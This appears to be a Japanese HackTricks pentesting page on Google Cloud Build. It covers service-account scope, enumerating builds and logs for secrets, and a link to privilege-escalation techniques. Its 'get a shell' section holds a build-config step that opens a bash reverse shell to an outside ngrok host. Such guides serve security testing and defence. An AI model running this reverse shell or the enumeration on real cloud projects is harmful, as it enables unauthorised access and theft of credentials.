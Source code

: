 # GCP - Cloud Build

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**最新バージョンのPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアのビルド**とリリースプロセスを自動化する**管理型CI/CDプラットフォーム**であり、**ソースコードリポジトリ**と統合し、さまざまなプログラミング言語をサポートしています。開発者は、コードを**自動的にビルド、テスト、デプロイ**することができます。また、ビルドステップとワークフローをカスタマイズする柔軟性も提供しています。

各Cloud Buildトリガーは、Cloudリポジトリに関連付けられているか、外部リポジトリ（Github、Bitbucket、Gitlab）と直接接続されています。

Cloud Buildは、ビルドの実行に**承認が必要な場合があります**（デフォルトでは無効）。

**サービスアカウントには`cloud-platform`スコープがあり**、すべての特権を使用することができます。**SAが指定されていない場合**（submit時など）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます**。

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見つかりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、クライアントからはGithubにアクセスされません。
{% endhint %}

### ストレージ

Cloud Buildは、トリガーのファイルを保存するために**新しいストレージを生成することがあります**。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得する
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルドの設定とログには、**機密情報が含まれている可能性があります**。
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>HackTricksをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
